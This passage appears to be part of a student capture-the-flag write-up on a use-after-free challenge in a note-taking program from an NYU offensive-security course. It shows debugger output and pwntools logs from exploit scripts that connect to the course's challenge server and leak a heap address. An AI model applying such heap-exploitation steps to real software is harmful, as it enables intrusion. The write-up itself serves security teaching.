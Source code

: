 ```
jnu@Offsec-Ubuntu-20:~/Desktop/7-Week/uaf$ python3 UAF_Pwn1.py
0x0000564f79636593
0x564f79639060
[#0] Id 1, Name: "chal", stopped 0x564f796364a6 in show (), reason: BREAKPOINT

gef➤  $ x/2x 0x564f79639060
0x564f79639060 <array>:    0x7b4082a0    0x0000564f


```


# Okay, I think we're finally getting somewhere
We can leak an address in heap now!
```
jnu@Offsec-Ubuntu-20:~/Desktop/7-Week/uaf$ python3 UAF_Pwn3.py 
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 12347: Done
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x2 bytes:
    b'\n'
    b'>'
[DEBUG] Received 0xa7 bytes:
    00000000  43 6f 6e 74  65 6e 74 3a  0a 00 00 00  00 00 00 00  │Cont│ent:│····│····│
    00000010  00 10 10 fc  74 02 56 00  00 3d 3d 3d  3d 3d 3d 3d  │····│t·V·│·===│====│
    00000020  3d 3d 3d 3d  20 4e 59 55  20 4f 46 46  53 45 43 20  │====│ NYU│ OFF│SEC │
    00000030  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  0a 31 2e 09  │====│====│====│·1.·│
    00000040  41 64 64 20  61 20 6e 6f  74 65 0a 32  2e 09 44 65  │Add │a no│te·2│.·De│
    00000050  6c 65 74 65  20 61 20 6e  6f 74 65 0a  33 2e 09 45  │lete│ a n│ote·│3.·E│
    00000060  64 69 74 20  61 20 6e 6f  74 65 0a 34  2e 09 52 65  │dit │a no│te·4│.·Re│
    00000070  61 64 20 61  20 6e 6f 74  65 0a 35 2e  09 45 78 69  │ad a│ not│e·5.│·Exi│
    00000080  74 0a 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  3d 20 4e 59  │t·==│====│====│= NY│
    00000090  55 20 4f 46  46 53 45 43  20 3d 3d 3d  3d 3d 3d 3d  │U OF│FSEC│ ===│====│
    000000a0  3d 3d 3d 3d  3d 0a 3e                               │====│=·>│
    000000a7
b'\x10\x10\xfct\x02V\x00\x00'
1010fc7402560000
0x560274fc1010
[*] Switching to interactive mode
=========== NYU OFFSEC ============
1.    Add a note
2.    Delete a note
3.    Edit a note
4.    Read a note
5.    Exit
=========== NYU OFFSEC ============
>$  
[38]+  Stopped                 python3 UAF_Pwn3.py

```
